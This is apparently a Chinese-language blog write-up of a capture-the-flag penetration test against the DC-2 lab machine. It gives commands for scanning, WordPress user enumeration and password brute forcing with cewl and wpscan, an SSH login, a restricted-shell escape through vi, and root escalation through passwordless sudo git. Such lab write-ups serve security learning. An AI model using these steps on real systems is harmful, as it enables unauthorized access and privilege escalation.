


文章主要是对靶机DC-2的一次渗透测试过程记录
# 信息收集
好的信息收集能大大提高渗透的成功率，因此要养成良好的信息收集习惯
因为靶机与测试主机在同一网段内，首先需要做的就是获取靶机的IP地址
这里就先介绍一下常见的同网段IP地址获取方法
## IP扫描
**nmap**
首先登场的是重量级工具NMAP，功能全面，在许多情况下都能使用，渗透测试人员必备工具。这里使用nmap的-Pn参数进行同网段的主机发现。

>nmap -Pn 192.168.72.0/24


**netdiscover**
这款也比较好用，扫描结果也看着舒服，得到的信息虽然没nmap多，但达到目的就行

>netdiscover -i eth0 -r 192.168.72.0/24


**arp-scan**
上面两个基本够用，但多多益善，多学总是用好处的

>arp-scan -l


通过ARP反查IP

## 端口扫描
找到目标IP后仅需要进行端口扫描，通过端口扫描查看目标主机开放的服务，为后续利用做铺垫
因为使用nmap上来就加-p-参数进行全端口扫描比较慢，这里推荐一种端口扫描思路。就是先利用masscan快速扫出开放端口，再用nmap进行详细的扫描。

>masscan --rate 10000 -p 0-65535 192.168.72.154

这里需要注意的是masscan扫描结果不一定准确，尤其是在rate比较高的情况下，因此需要多次扫描或使用低的速率进行扫描

下面就需要使用namp扫描端口服务和系统，需要分别使用-sV和-O参数

>nmap -sV -O -T4 -p 80,7744 192.168.72.154


这里可以直接访问80端口浏览网站内容，需要注意7744这个端口，开放了ssh服务，因此要是能找到用户的账号和密码，就可以登陆ssh

虽然nmap的漏洞扫描脚本用的比较少，但万一呢？

>nmap -sV -O -T4 --script=vuln -p 80,7744 192.168.72.154

梦想成真，出来了一些敏感的页面与用户名：）
wordpress的用户有**admin、tom、jerry**

## 目录暴破
就是用kali上简单的目录暴破工具dirb吧（也可以使用具有图形化界面的dirbburster）
先使用dpkg找你喜欢的字典，先点个香（误），开始暴破
>dpkg -L dirb
>dirb http://dc-2 /usr/share/dirb/wordlists/common.txt


找到登陆后台

## 浏览网站
接下来就是激动人心的对目标进行访问了
在地址栏输入IP地址，结果返回了这样一个空白页面

看来该网站必须要使用域名才能访问呀
这就需要修改本地的hosts文件
需要注意，windows和linux的hosts文件分别在`c:\windows\system32\driver\etc\`和`/etc/`
在hosts文件中追加一条即可

再次访问就没问题了
开始对该网站内容进行浏览，需要找个舒服的姿势慢慢看
这个flag应该就是提示了，翻译一下就是需要用cewl工具

去看了一下cewl的使用姿势，详细了解可以见后面的工具介绍

分析了一下，这段话的意思是需要用cewl来爬去网站的内容，制作社工字典来对wordpress账号进行暴破。联系到之前用nmap跑出来的账号名，和登陆后台，有点思路了。
>cewl -w pass.txt http://dc-2


看到该网站的使用的开发语言是php，CMS是WP
想到可以利用针对WP漏洞的好工具wpscan
**使用wpscan扫描漏洞**
>wpscan --url http://dc-2

找到了一些可能有用的信息，版本比较早，可能会存在直接可以利用的漏洞

**使用wpscan对用户名进行枚举**
>wpscan --url http://dc-2 -e u


**使用wpscan暴力破解**
利用之前cewl生成的字典进行暴破
>wpscan --url http://dc-2 -P pass.txt

找到密码
```
| Username: jerry, Password: adipiscing
| Username: tom, Password: parturient
```

# 漏洞利用
前面的信息收集阶段还是比较成功的，找到了对方后台和账号
虽然在msf中利用wp的版本RCE漏洞失败，但我们还能尝试其他思路获得shell
先登录后台看看

找到提示，这里说是如果你不能利用WP走捷径，可以尝试另一个方法。联想到之前扫描到的ssh服务

WP算是一个问题比较大的CMS了，首先在后台登陆界面就能发现登陆提示太详细，存在用户名枚举的问题，使攻击者很容易就能枚举出网站的有效用户名，并利用社工字典来暴破；还有就是账号密码通过明文传输；WP获得websehll的方法有通过修改404页面和上传主题压缩包。
新建一个页面

成功触发XSS漏洞，但通过对页面源码的浏览，phpinfo被注释掉了，导致无法执行php

测试文件上传功能，结果提示权限不足

那就试试提到的另一个端口7744
## SSH登陆
>ssh tom@192.168.72.154 -p 7744


登陆后发现是个受限shell，shell版本是4.3.30

需要绕过这个受限的shell，查看shell可执行的命令
>echo $PATH
>echo /home/tom/usr/bin/*


使用ls找到了当前目录下的提示3，并用vi即可查看内容

```
poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```
提示是需要切换到其他用户去

**利用vi绕过受限shell**
>:set shell=/bin/sh
>:shell
>
>

**更改环境变量**
获得的shell发现能够导入环境变量
>export -p
>export PATH=$PATH:/bin/
>
>export PATH=$PATH:/usr/bin
>

现在shell就能执行比以前更多的命令了！更多的shell绕过方法可以在下面的链接中找找。
[Linux Restricted Shell绕过技巧总结](https://www.freebuf.com/articles/system/188989.html)

根据提示再进行切换用户

利用信息收集到的密码，切换jerry用户成功

到jerry的家目录下，找到了提示4，可以看到提示使用git
下来就是需要进行提权操作了

因为已知了用户的密码，因此希望能够使用sudo误配快速提权
先看看jerry的groups，很遗憾并不再sudo组中，因此不能使用sudo直接提权到root

再看看jerry可以调用sudo执行列表，惊喜的发现可以sudo无密码执行/usr/bin/git。正好印证了提示所说的git

# 提权操作
>sudo git -p help


sudo后，以root身份调用/bin/bash，成功提权

```
root@DC-2:/home/jerry# cd ~
root@DC-2:~# ls
final-flag.txt
root@DC-2:~# cat final-flag.txt 
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.


```
***
# 工具介绍
## cewl
CeWL是一款采用Ruby开发以爬虫模式在指定URL上收集单词的工具，可以将它收集到的单词纳入密码字典，以提高密码破解工具的成功率。使用cewl后会得到一个字典，用来暴破。

在cewl后直接跟url即可使用，加上参数-w就可以指定生成的文件名

>cewl http://dc-2/ -w pass.txt

```
其他常用参数:
-w <name>	#指定字典名
-d <num>	# 指定探测深度，默认是2
-m <num>	# 指定密码最小长度
```
使用建议：在利用用户名枚举或其他方式获得确定的用户名，之后使用该工具来生成社工字典进行密码暴破。（不知道用户名别瞎暴破，只会白白浪费渗透时间）
[参考资料](https://www.freebuf.com/articles/network/190128.html)

## wpscan
好用的wordpress内容管理系统漏洞扫描工具，同时也可以用来用户名的枚举和账号的暴破

它采用Ruby编写，能够扫描WordPress网站中的多种安全漏洞，其中包括主题漏洞、插件漏洞和WordPress本身的漏洞。最新版本WPScan的数据库中包含超过18000种插件漏洞和2600种主题漏洞，并且支持最新版本的WordPress。值得注意的是，它不仅能够扫描类似robots.txt这样的敏感文件，而且还能够检测当前已启用的插件和其他功能。
```
常用参数
--update	#更新漏洞库
--url	<URL>		#扫描指定URL(WordPressCMS)的漏洞
-e u 		#枚举wordpress用户
-P <dir>	#添加字典
```

[参考资料](https://www.freebuf.com/sectool/174663.html)